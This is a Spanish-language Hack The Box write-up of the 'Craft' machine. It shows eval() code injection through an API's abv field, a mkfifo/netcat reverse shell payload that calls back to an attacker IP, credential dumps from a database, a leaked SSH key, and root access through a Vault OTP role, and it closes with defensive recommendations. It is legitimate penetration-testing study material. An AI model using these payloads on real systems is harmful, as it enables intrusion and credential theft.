

# Craft — Hack The Box (práctica CPTS)

**Plataforma:** Hack The Box
**Dificultad:** 🟡 Media
**SO:** Linux
**Certificación:** Práctica adicional para el CPTS (Certified Penetration Testing Specialist)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · Enumeración de subdominios (`api.craft.htb`, `gogs.craft.htb`) · Minería del historial de commits en **Gogs** → credenciales filtradas + **inyección de código vía `eval()`** en un endpoint REST (campo `abv`) · Pivote a base de datos interna (`pymysql`) transfiriendo un script vía `base64` · Reutilización de credenciales → repositorio privado con una **clave SSH filtrada** · Reutilización de contraseña como passphrase de la clave → **HashiCorp Vault** con rol SSH OTP (`root_otp`) → root
**Idioma:** Español — [🇬🇧 English version](./Craft_Writeup_EN.md)

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración — subdominios y Gogs](#2-enumeración--subdominios-y-gogs)
3. [Acceso inicial — inyección de código vía `eval()`](#3-acceso-inicial--inyección-de-código-vía-eval)
4. [Obtención de shell](#4-obtención-de-shell)
   - [Escalada de privilegios — de un contenedor a root vía Vault](#escalada-de-privilegios--de-un-contenedor-a-root-vía-vault)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)
7. [Glosario de herramientas y comandos](#7-glosario-de-herramientas-y-comandos)
8. [Flujo de ataque](#8-flujo-de-ataque)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.78.231
```

> 🛠️ **`ping`** — comprueba disponibilidad del host por ICMP. TTL **63** (partiendo de 64) → sistema **Linux**.


Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.78.231
```

> 🛠️ **`nmap -sS -Pn -vvv --min-rate 5000 --open -n -p-`** — escaneo SYN de los 65535 puertos: `-sS` (sigiloso), `-Pn` (ignora el estado del ping), `--min-rate 5000` (acelera el envío), `--open` (solo puertos abiertos), `-n` (sin resolución DNS).


```bash
enum-nmap AllPorts
```

> 🛠️ **`enum-nmap`** — script propio que resume la salida de Nmap: IP, TTL, SO estimado y lista de puertos lista para el siguiente `-p`.


Escaneo de versión y scripts por defecto:

```bash
nmap -sS -Pn -sCV -T5 -n -p22,443,6022 -oN Ports 10.129.78.231
```

> 🛠️ **`-sCV`** combina `-sC` (scripts por defecto de Nmap) con `-sV` (detección de versión de servicio).


```
443/tcp  open  ssl/http  nginx 1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/...
6022/tcp open  ssh       Golang x/crypto/ssh server (protocol 2.0)
```

> 💡 Tres puertos: **22** (SSH estándar), **443** (HTTPS, certificado emitido para `craft.htb`) y **6022** — un servidor SSH implementado en **Golang**, no OpenSSH. Este último puerto es la huella característica de **Gogs** (o Gitea), que expone su propio servidor SSH para operaciones git independiente del SSH del sistema.

## 2. Enumeración — subdominios y Gogs

El sitio en el puerto 443 explica el propósito de la aplicación:


```
Craft aims to be the largest repository of US-produced craft brews accessible
over REST. [...] check out our API!
```

Localizamos dos subdominios adicionales a partir del certificado/enumeración de vhosts:


```
api.craft.htb
gogs.craft.htb
```

Los añadimos al `/etc/hosts`:


`gogs.craft.htb` aloja una instancia de **Gogs** (servidor Git self-hosted ligero, escrito en Go — de ahí el puerto 6022) con un repositorio público:


```
Craft / craft-api — An API for IPA's.
```

### ¿Por qué revisar el historial de commits y no solo el código actual?

Un repositorio Git no es solo su estado presente: **conserva cada versión anterior** de cada fichero, accesible por cualquiera con permiso de lectura sobre el repo — y eso incluye cualquier secreto que alguna vez se haya commiteado, aunque luego se haya "arreglado" en un commit posterior. Revisar el historial completo es, en la práctica, revisar *todas* las versiones del código que alguna vez existieron, no solo la actual.

```bash
# en la interfaz de Gogs: Historial de Commits
```


Dos commits llaman la atención: **"add test script"** y **"Add fix for bogus ABV values"**.

## 3. Acceso inicial — inyección de código vía `eval()`

### El commit de pruebas: credenciales filtradas

El commit **"add test script"** añade `tests/test.py`, con credenciales de prueba hardcodeadas para autenticarse contra la API:


```python
response = requests.get('https://api.craft.htb/api/auth/login',
                         auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
```

> 💡 Es extremadamente habitual que scripts de prueba usen credenciales reales "temporalmente" durante el desarrollo — y que esas credenciales nunca se roten, ni siquiera cuando el script deja de usarse activamente.

### El commit "fix": una vulnerabilidad introducida sin querer

El commit **"Add fix for bogus ABV values"** modifica el endpoint de creación de cervezas para "validar" el campo `abv` (graduación alcohólica):


```python
# make sure the ABV value is sane.
if eval('%s > 1' % request.json['abv']):
    return "ABV must be a decimal value less than 1.0", 400
else:
    create_brew(request.json)
    return None, 201
```

> 💡 **¿Por qué funciona esta inyección?** `eval()` en Python toma una cadena de texto y la ejecuta como código Python real. El desarrollador quería comparar `abv` con `1` numéricamente, pero en vez de convertir el valor con `float(request.json['abv'])` y comparar directamente, lo **insertó dentro de una cadena** (`'%s > 1' % abv`) que luego se evalúa. Como `abv` es un campo JSON controlado enteramente por el atacante, cualquier texto puesto ahí se ejecuta tal cual como código Python — no solo números. Por ejemplo, enviando `abv = "__import__('os').system('id')"`, el código resultante a evaluar es literalmente `__import__('os').system('id') > 1`, que ejecuta el comando del sistema como efecto secundario antes de intentar comparar su valor de retorno.

Con las credenciales filtradas en el historial, construimos un script para autenticarse y explotar la inyección:

```python
response = requests.get('https://api.craft.htb/api/auth/login', auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
token = json.loads(response.text)['token']

brew_dict['abv'] = '__import__("os").system("ping -c 1 10.10.15.31")'
headers = {'X-Craft-API-Token': token, 'Content-Type': 'application/json'}
requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json.dumps(brew_dict))
```

> 🛠️ **`__import__("os").system(...)`** — forma de invocar el módulo `os` y ejecutar un comando del sistema sin una sentencia `import` tradicional (que no es válida dentro de una expresión `eval`); es el patrón estándar para lograr ejecución de comandos a través de una inyección `eval()`.


Confirmamos la ejecución de comandos con un listener ICMP:

```bash
sudo tcpdump -i tun0 icmp -n
```

> 🛠️ **`tcpdump -i tun0 icmp -n`** — captura únicamente paquetes ICMP (ping) en la interfaz de la VPN de HTB, sin resolver nombres (`-n`); forma fiable de confirmar ejecución de comandos ciega (sin salida visible) usando un ping como "baliza".


## 4. Obtención de shell

Sustituimos el payload por una reverse shell completa:

```python
brew_dict['abv'] = '__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.31 443 >/tmp/f")'
```

> 🛠️ **`mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> <puerto> > /tmp/f`** — patrón clásico de reverse shell con named pipe (FIFO): crea un canal bidireccional entre `nc` y una shell interactiva, sin depender de que `nc` tenga la opción `-e` (deshabilitada por defecto en muchas distribuciones modernas por motivos de seguridad).


```
[+] Waiting for connections on :::443: Got connection
$ whoami
root
$ ip a
172.20.0.6/16 ...
```


> 💡 Somos `root`, pero la IP interna (`172.20.0.6`) revela que estamos dentro de un **contenedor Docker**, no en el host real — el compromiso total de la máquina sigue pendiente. Ser root dentro de un contenedor no equivale a ser root en el host que lo aloja.

### Pivotando a la base de datos interna

```bash
ls /opt/app
cat dbtest.py
```


```python
connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                              user=settings.MYSQL_DATABASE_USER,
                              password=settings.MYSQL_DATABASE_PASSWORD,
                              db=settings.MYSQL_DATABASE_DB,
                              cursorclass=pymysql.cursors.DictCursor)
```

> 💡 El propio equipo de desarrollo dejó un script de prueba de conexión a la base de datos (`dbtest.py`) dentro del contenedor, usando las credenciales reales de la aplicación (importadas desde `craft_api.settings`). No hace falta ni siquiera conocer esas credenciales directamente: basta con ejecutar el script ya existente, que las usa internamente.

```bash
python3 dbtest.py
```


Editamos una copia local del script para listar todas las tablas (cambiando `fetchone()` por `fetchall()`, imprescindible para obtener más de un resultado):

```python
sql = "SHOW TABLES"
cursor.execute(sql)
result = cursor.fetchall()
```

> 🛠️ **`cursor.fetchall()` vs `cursor.fetchone()`** — `fetchone()` solo devuelve la primera fila del resultado; para listados completos (como `SHOW TABLES` o un `SELECT *`) es imprescindible `fetchall()`, que devuelve todas las filas como una lista.


### Transfiriendo el script sin un canal de ficheros

Sin `scp`, `wget` ni un servidor HTTP accesible desde el contenedor, codificamos el script en base64 para pegarlo directamente en la reverse shell:

```bash
base64 db.py -w0 | xclip -sel clip
```

> 🛠️ **`base64 -w0`** — codifica el fichero a base64 sin saltos de línea (`-w0`, *wrap 0*), produciendo una única línea pegable en cualquier terminal; `xclip -sel clip` la copia directamente al portapapeles del sistema.


```bash
echo "<base64>" | base64 -d > test.py
```

> 🛠️ **`echo "..." | base64 -d > fichero`** — técnica estándar de transferencia de ficheros "a pelo" en una shell reversa sin herramientas adicionales: se pega el contenido codificado y se decodifica directamente en destino.


```bash
python3 test.py
```


```
[{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]
```

Repetimos el proceso para volcar la tabla `user`:

```python
sql = "select * from user"
```


```bash
python3 test.py
```


```
dinesh:4aUh0A8PbVJxgd
ebachman:llJ77D8QFkLPQB
gilfoyle:ZEU3N8WNM2rh4T
```

## Escalada de privilegios — de un contenedor a root vía Vault

Con las credenciales de `gilfoyle`, iniciamos sesión en Gogs — la misma cuenta podría estar reutilizada en otros sistemas:


Su perfil tiene un repositorio **privado**:


```
gilfoyle / craft-infra — Craft infrastructure
```

El repositorio contiene la infraestructura completa del proyecto, incluida una carpeta `.ssh`:


> 💡 Se ha cometido el error clásico de **versionar una clave SSH privada** dentro del propio repositorio de infraestructura — un repo "privado" en Gogs sigue siendo legible por cualquier cuenta a la que se le otorgue acceso, y una vez comprometida esa cuenta, el secreto queda expuesto igual que si fuera público.

Descargamos la clave y la usamos para conectar:


```bash
chmod 600 id_rsa
ssh -i id_rsa gilfoyle@10.129.78.231
```

> 🛠️ **`chmod 600`** — restringe los permisos de la clave privada a lectura/escritura solo del propietario; OpenSSH rechaza claves con permisos más abiertos.


La clave está protegida con passphrase. Probamos la contraseña de `gilfoyle` ya obtenida de la base de datos:


```
gilfoyle@craft:~$
```

> 💡 La misma contraseña reutilizada como **passphrase** de la clave SSH — esta vez, en el **host real** (`craft.htb`), no en el contenedor. La reutilización de credenciales entre sistemas y mecanismos distintos (login web, passphrase de clave) es uno de los patrones de escalada más comunes en máquinas CTF y en entornos reales.

```bash
ls -la
```


```
-rw------- 1 gilfoyle gilfoyle  36 .vault-token
-r-------- 1 gilfoyle gilfoyle  33 user.txt
```

### ¿Qué es HashiCorp Vault y por qué un `.vault-token` es tan sensible?

**HashiCorp Vault** es un gestor de secretos centralizado: en vez de que cada aplicación/usuario guarde contraseñas, claves API o certificados por su cuenta, Vault los almacena cifrados y los entrega bajo demanda a quien tenga autorización, mediante **tokens** y **políticas** que definen qué puede hacer cada token. El fichero **`.vault-token`** en el home de un usuario es la credencial ya autenticada contra Vault — si ese token sigue vigente y tiene permisos amplios, equivale a tener todos los secretos que ese token puede leer.

```bash
vault
```

> 🛠️ **`vault`** (sin argumentos) — muestra los subcomandos disponibles del CLI: `read`, `write`, `login`, `ssh`, etc. Útil para orientarse rápidamente cuando no se conoce de antemano qué motores de secretos tiene habilitados la instancia.


El repositorio `craft-infra` también documenta la configuración de Vault:


```bash
cat secrets.sh
```


```bash
vault secrets enable ssh
vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```

### ¿Qué es el motor SSH de Vault con OTP y por qué da root directamente?

El **motor de secretos SSH** de Vault, en modo **OTP (One-Time Password)**, funciona así: Vault despliega un pequeño agente (`vault-ssh-helper`) en las máquinas objetivo que intercepta la autenticación PAM de SSH. Cuando un cliente autorizado pide una credencial para un **rol** concreto (aquí, `root_otp`), Vault genera una contraseña de un solo uso, se la entrega al cliente, y simultáneamente informa al agente en la máquina objetivo de que esa OTP es válida para esa sesión. El usuario usa esa OTP como contraseña del login SSH normal — sin necesidad de conocer ninguna contraseña real de `root`, y sin que exista una contraseña real que rotar o filtrar.

El rol `root_otp` está configurado con `default_user=root` (inicia sesión como root) y `cidr_list=0.0.0.0/0` (sin restricción de origen) — cualquier token de Vault con permiso para usar ese rol obtiene, efectivamente, acceso root bajo demanda.

```bash
vault ssh -role root_otp root@127.0.0.1
```

> 🛠️ **`vault ssh -role <rol> <usuario>@<host>`** — solicita a Vault una credencial SSH usando el rol indicado y, con el token ya cacheado (`.vault-token`) del usuario actual, automatiza todo el flujo: genera la OTP y lanza el `ssh` correspondiente.


```
OTP for the session is: 008dce24-e4df-54fb-16f8-097c2acaf768
Password: <OTP>
root@craft:~# whoami
root
```

## 5. Post-explotación y flags

Shell de root confirmada en el host real — compromiso total del sistema.

> 🔒 Las capturas disponibles no incluyen la lectura explícita del contenido ni de la ruta de `user.txt`/`root.txt`; no se documentan aquí por no poder verificarlas contra las capturas, siguiendo la misma política de no regalar la respuesta a quien esté practicando esta máquina.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Historial de Git con credenciales de prueba hardcodeadas | Commit "add test script" | Filtración de credenciales válidas de la API |
| Validación de entrada de usuario mediante `eval()` sobre una cadena concatenada | Commit "Add fix for bogus ABV values" (`brew.py`) | Inyección de código Python → RCE |
| Credenciales de base de datos reutilizables por cualquier proceso dentro del contenedor | `settings.py` / `dbtest.py` | Volcado completo de la tabla de usuarios tras el RCE |
| Clave SSH privada versionada en un repositorio (aunque fuera privado) | `craft-infra/.ssh/id_rsa` | Acceso directo al host real una vez comprometida esa cuenta |
| Contraseña reutilizada como passphrase de clave SSH | Cuenta `gilfoyle` | Facilita el uso de la clave filtrada sin necesidad de romper el cifrado |
| Rol de Vault SSH-OTP para root sin restricción de origen | `ssh/roles/root_otp` (`cidr_list=0.0.0.0/0`) | Cualquier token con permiso sobre ese rol obtiene acceso root bajo demanda |

## Recomendaciones defensivas

- Nunca almacenar credenciales, aunque sean "de prueba", en el código fuente o en el historial de control de versiones; usar variables de entorno o un gestor de secretos desde el primer commit.
- Nunca usar `eval()`/`exec()` sobre datos de entrada de usuario; validar y convertir tipos de forma explícita y segura (`float()`, comparaciones numéricas directas).
- Aplicar el principio de mínimo privilegio a las credenciales de base de datos usadas por la aplicación, y rotarlas si han podido quedar expuestas en un contenedor comprometido.
- Nunca versionar claves privadas SSH, tokens ni ningún secreto en un repositorio, ni siquiera en uno marcado como privado — si debe compartirse, usar un gestor de secretos.
- No reutilizar contraseñas entre distintos sistemas y mecanismos de autenticación (cuentas web, passphrases de claves SSH, etc.).
- Restringir los roles de Vault al mínimo alcance necesario: limitar `cidr_list`, exigir aprobación adicional (p. ej. `sudo` o MFA) para roles que otorgan acceso root, y auditar periódicamente los tokens activos y sus políticas asociadas.

## 7. Glosario de herramientas y comandos

| Herramienta / comando | Para qué sirve |
|------------------------|-----------------|
| `ping` / `nmap` | Descubrimiento de host y enumeración de puertos/servicios |
| `enum-nmap` | Script propio que resume la salida de Nmap |
| **Gogs/Gitea** | Servidor Git self-hosted ligero (Go); expone su propio SSH, de ahí el puerto no estándar |
| **Historial de commits** | Conserva versiones anteriores del código; puede revelar secretos ya "arreglados" en commits posteriores |
| **`eval()` injection** | Ejecutar como código Python cualquier cadena pasada a `eval()`; crítico cuando esa cadena incluye input de usuario sin sanear |
| `__import__("os").system(...)` | Patrón para ejecutar comandos del sistema dentro de una expresión `eval()`, sin usar `import` |
| `tcpdump -i <iface> icmp -n` | Captura paquetes ICMP; útil como baliza para confirmar RCE ciego |
| `mkfifo` + `nc` (reverse shell) | Crea un canal bidireccional con un named pipe cuando `nc -e` no está disponible |
| `pymysql` | Librería Python para conectarse a MySQL; aquí, reutilizada desde un script de pruebas ya existente en el contenedor |
| `cursor.fetchall()` | Recupera todas las filas de una consulta SQL, en vez de solo la primera (`fetchone()`) |
| `base64 -w0` + `echo ... \| base64 -d` | Transferencia de ficheros "a pelo" en una shell sin herramientas de transferencia disponibles |
| **Reutilización de credenciales** | Patrón de escalada: una misma contraseña sirve para distintos sistemas o mecanismos (login web, passphrase SSH) |
| **Clave SSH filtrada en un repo** | Vulnerabilidad común: una clave privada versionada por error, recuperable por cualquiera con acceso de lectura al repo |
| **HashiCorp Vault** | Gestor de secretos centralizado; entrega credenciales bajo demanda según políticas y tokens |
| `.vault-token` | Token ya autenticado contra Vault, cacheado en el home de un usuario; equivale a sus permisos actuales sobre Vault |
| **Motor SSH OTP de Vault** | Genera contraseñas de un solo uso para iniciar sesión SSH, en vez de distribuir una contraseña real fija |
| `vault ssh -role <rol> <user>@<host>` | Solicita una credencial SSH vía Vault usando un rol concreto y lanza automáticamente la conexión |

## 8. Flujo de ataque



> 💡 **El porqué de cada paso:** en máquinas con un repositorio de código expuesto, el historial de commits es tan importante como el código actual — un "fix" de seguridad mal hecho, o un script de pruebas con credenciales, suelen revelar más que el propio endpoint vulnerable. Tras obtener una shell, el primer chequeo siempre es si se está dentro de un contenedor (IP interna tipo `172.x`/`10.x` con un hostname distinto al de nmap): de ser así, el objetivo cambia a encontrar credenciales que permitan saltar al host real, normalmente a través de configuraciones de la propia aplicación ya desplegada. La reutilización de contraseñas —como passphrase de una clave SSH filtrada— es un patrón extremadamente común tanto en máquinas CTF como en entornos reales. Una vez en el host real, cualquier gestor de secretos (Vault, en este caso) con un token ya cacheado merece revisión: sus roles configurados pueden ser la vía de escalada final, especialmente si alguno de ellos emite credenciales para una cuenta privilegiada sin restricciones adicionales.

---

*Escrito por [Arabot](https://github.com/Caan31) · Hack The Box · práctica CPTS · 2026*
